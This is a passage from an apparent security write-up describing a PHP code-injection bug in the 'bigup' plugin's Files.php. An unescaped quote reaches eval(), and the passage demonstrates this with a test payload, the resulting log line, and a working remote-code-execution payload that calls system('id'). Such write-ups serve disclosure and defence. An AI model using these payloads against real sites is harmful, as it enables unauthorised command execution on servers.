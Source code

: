 From the docker logs, we can read:

![500_log](500_log.png)

Here we see that the `'` is not filtered, so the context is broken and the call to *eval* returns an error.

Finally, we can add a real payload to control the contents of the string between the square brackets.

The payload payload `HELLO[AB'.strval(5+5).'CD]` lead to this log line:
```bash
Undefined array key "AB10CD" in ... plugins-dist/bigup/inc/Bigup/Files.php(276) : eval()'d code on line 1
```

The rce is now trivial, with the following payload:

```php
name="HELLO[AB'.system('id').die().'CD]"
```

![rce](rce.png)
